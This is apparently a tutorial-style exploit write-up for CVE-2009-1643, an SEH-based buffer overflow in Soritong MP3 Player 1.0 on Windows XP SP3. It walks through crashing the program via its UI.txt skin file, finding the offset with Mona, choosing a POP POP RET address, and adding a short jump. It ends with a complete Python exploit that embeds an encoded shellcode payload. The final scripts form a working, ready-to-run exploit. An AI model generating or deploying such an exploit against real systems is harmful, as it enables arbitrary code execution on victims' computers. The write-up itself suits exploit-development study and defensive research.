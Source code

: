 # Soritong MP3 Player 1.0 _ Win XP SP3 - Buffer Overflow


-   cve details: [CVE-2009-1643](https://nvd.nist.gov/vuln/detail/CVE-2009-1643)
-   Target: Soritong MP3 Player 1.0 
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

When program start ,It read config file for generate SKIN. I check installed folder and find folder Skin. This folder have several another folder. But because I use
default skin, I work on. in this folder are a file named UI.txt. Program save Skin confige in this file. I generate a exploit :

```
exploit="A" * 2000

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Program crashed. I run this program in Immunity. Programm creashed But EIP don't chabge to 41414141 and program send a exception.

![](/1.PNG)

Program have BOF,but not vanilla or classic. Because it send exeption, I check SEH chain. For this: View > SEH Chain

![](/2.PNG)

I overwrite SEH. For Exploit this program, I need use SEH technique. For this I need:

-   Overwrite Next SEH address
-   Overwrite Current SEH
-   Add our shellcode
-   Create exeption

I overwrite Next SEH address for jump to my shell code, Overwrite current SEH to jump Next SEH address and final create a exeption. \
First I need exactly Overwrite location. I use Mona. I create pattern and replace it to my shell code. run program,after program crashed go to SEH chain and Copy it
to Mona:

![](/3.PNG)

I change Exploit to this: (in 588, 584's to recive next seh and 4 for next seh)

```
#BBBB= next seh
#CCCC= current seh
#DDDD= shellcode

exploit="A" * 584 + "BBBB" + "CCCC" + "DDDD"

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

![](/4.PNG)

I successfully overwrite both. Now replace really value. In current SEH ,I can't add address because it execute location and I need use this location for jump
Next Seh. For this I need "POP POP ret". every pop ,jump 4 byte and I need 8 byte. after jump ,I'm in NEXT SEH location and when execute "ret", this address add
to EIP. For "POP POP ret", I need find a location.In exploit BOF by SEH, location isn't active SafeSEH. For check it ,I use Mona. "!mona seh". It create a txt file
and If check it :

![](/5.PNG)

So I selected location select this Module .I right click and select this:

![](/6.PNG)

and type:

```
pop r32
pop r32
ret
```

And select a location from player.dll and I select "100116fd" because it not null bye.after it , My exploit change to it:

```
exploit="A" * 584 + "CCCC" + "\xfd\x16\x01\x10"  + "DDDD"

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Now we overwrite current SEH. when execption occur , program recive this location and from it jump to NEXT SEH. Now I go to overwrite NEX seh.
When program recive this location, It run instruction. So I need use assembly (opcode). If go to SEH chain and right click and select "fllow address in stack"
and see stack:

![](/7.PNG)

BBBB is Next seh and DDDD is my shellcode. For jump from BBBB to DDDD , I dont use address like "jmp address" because I dont know this address. For solve this
problem, I use "short jmp". It jump by number of the step. like "short jmp 06", it jump 6 byte. opcode for this is "eb". I use "eb 6" and two NOP for create
current byte (8). I use it and shellcode to my exploit:

```
xploit="A" * 584 + "\xeb\x06\x90\x90" + "\xfd\x16\x01\x10"  +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Now only thin I need, create a exeption. For this I use "A"*500. My exploit finally:

```
exploit="A" * 584 + "\xeb\x06\x90\x90" + "\xfd\x16\x01\x10"  +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")+"A"*500

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

after run :

![](/8.PNG)








